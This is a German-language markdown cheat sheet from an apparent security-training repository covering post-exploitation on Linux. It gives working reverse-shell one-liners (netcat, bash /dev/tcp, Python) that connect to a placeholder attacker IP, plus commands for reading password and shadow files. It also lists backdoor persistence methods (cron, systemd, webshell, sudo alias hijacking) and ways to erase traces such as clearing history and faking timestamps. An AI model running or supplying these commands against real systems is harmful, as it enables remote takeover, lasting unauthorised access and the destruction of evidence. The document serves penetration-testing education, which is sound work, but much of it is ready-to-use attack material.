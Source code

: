 # 🧪 postExploitationTools.md




## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Nützliche Tools & Hilfsmittel](#nützliche-tools--hilfsmittel)
- [Reverse Shell Snippets](#reverse-shell-snippets)
- [Web-basierte Tools](#web-basierte-tools)
- [Persistenz-Techniken (nur zu Testzwecken!)](#persistenz-techniken-nur-zu-testzwecken)
- [Spuren verwischen](#spuren-verwischen)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Einleitung

Nach einem erfolgreichen Angriff (z. B. durch RCE oder SQL-Injection) beginnt die sogenannte **Post-Exploitation-Phase**.  
Hierbei geht es nicht mehr darum, _in ein System einzudringen_, sondern darum, was man _innerhalb_ des kompromittierten Systems erreichen kann.

### Ziele der Post-Exploitation:

- **System- und Benutzerinformationen sammeln**
- **Persistenz herstellen**
- **Privilege Escalation (z. B. root-Rechte erlangen)**
- **Datenexfiltration**
- **Pivoting** (Zugriff auf weitere Systeme)
- **Verdeckte Backdoors / Remote Access installieren**



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Nützliche Tools & Hilfsmittel

### 🛠️ Lokale Tools auf dem Zielsystem

| Befehl / Tool     | Funktion |
|-------------------|----------|
| `uname -a`        | OS- und Kernel-Version anzeigen |
| `id`              | Aktueller Benutzer & Gruppen |
| `whoami`          | Aktueller Benutzername |
| `ps aux`          | Laufende Prozesse |
| `netstat -tulnp`  | Netzwerkverbindungen |
| `ss -tulnp`       | Modernere Alternative zu netstat |
| `find / -perm -4000` | SUID-Dateien (für Privilege Escalation) |
| `cat /etc/passwd` | Benutzerkonten anzeigen |
| `cat /etc/shadow` | Passwort-Hashes (nur als root lesbar) |
| `sudo -l`         | Prüfen, ob sudo-Rechte bestehen |
| `ls -la /home`    | Benutzerverzeichnisse |
| `ls -la /root`    | Root-Verzeichnis (falls zugänglich) |
| `history`         | Kommandoverlauf des aktuellen Benutzers |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

### 📦 Tools für Dateidownloads & Kommandozugriff

| Tool / Methode | Beschreibung |
|----------------|--------------|
| `wget` / `curl` | Dateien herunterladen (z. B. Backdoor, Binary) |
| `nc` (Netcat)   | Reverse Shells, Dateiübertragung |
| `python3 -m http.server` | HTTP-Dateifreigabe vom Angreifer aus |
| `scp`           | Dateiübertragung via SSH |
| `bash -i >& /dev/tcp/IP/PORT 0>&1` | Bash-Reverse-Shell |
| `socat`         | Stabile Reverse Shells & Tunnels |
| `ssh-keygen` & `authorized_keys` | Persistenz durch SSH-Key-Hinterlegung |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Reverse Shell Snippets

### Netcat Reverse Shell:
```bash
nc -e /bin/bash YOUR-IP 4444
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Bash Reverse Shell:
```bash
bash -i >& /dev/tcp/YOUR-IP/4444 0>&1
```

### Python Reverse Shell:
```python
python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("YOUR-IP",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh"])'
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Web-basierte Tools

| Tool                        | Beschreibung                                                     |
| --------------------------- | ---------------------------------------------------------------- |
| **LinPEAS**                 | Automatisierte Linux-Enum (Privilege Escalation)                 |
| **WinPEAS**                 | Windows-Enum (User, Services, Permissions)                       |
| **PowerUp**                 | PowerShell-basierte Privilege Escalation für Windows             |
| **pspy**                    | Beobachtet Prozesse ohne root                                    |
| **GTFOBins**                | Liste legitimer Linux-Kommandos, die zu Escalation führen können |
| **LOLBAS**                  | Windows-Äquivalent zu GTFOBins                                   |
| **chisel**                  | Tunneling Tool für Pivoting                                      |
| **sshuttle**                | VPN-ähnliches Tool für Netzwerktunneling                         |
| **Metasploit Post Modules** | z. B. Token Dumping, Hash Dumping etc.                           |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Persistenz-Techniken (nur zu Testzwecken!)

| Technik                             | Beispiel                           |
| ----------------------------------- | ---------------------------------- |
| SSH-Key im `~/.ssh/authorized_keys` | Dauerhafter Zugriff über Key       |
| Cronjob Backdoor                    | Automatisierte Shell bei Neustart  |
| Systemd-Service Backdoor            | `.service`-Datei mit Reverse Shell |
| Webshell in `/var/www/html`         | PHP-Webshell auf dem Webserver     |
| Bash-Alias Hijacking                | `.bashrc` mit `alias sudo='...'`   |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Spuren verwischen

| Methode      | Beschreibung                           |
| ------------ | -------------------------------------- |
| `history -c` | Shell-History löschen                  |
| `touch -d`   | Dateizeitstempel manipulieren          |
| `shred`      | Dateien sicher löschen                 |
| `logrotate`  | Logdateien überschreiben oder rotieren |

⚠️ Viele dieser Methoden sind leicht detektierbar – nicht „invisible“!



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Siehe auch:

- [sql_injection_to_shell.md](/03-web-security/angriffe/sql-injektionen/sql-injection-cheatsheet.md)
- [php_rce_cheat_sheet.md](/03-web-security/angriffe/webshells/php_rce_cheat_sheet.md)
- [union_based_attack.md](/03-web-security/angriffe/sql-injektionen/union_based_attack.md)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---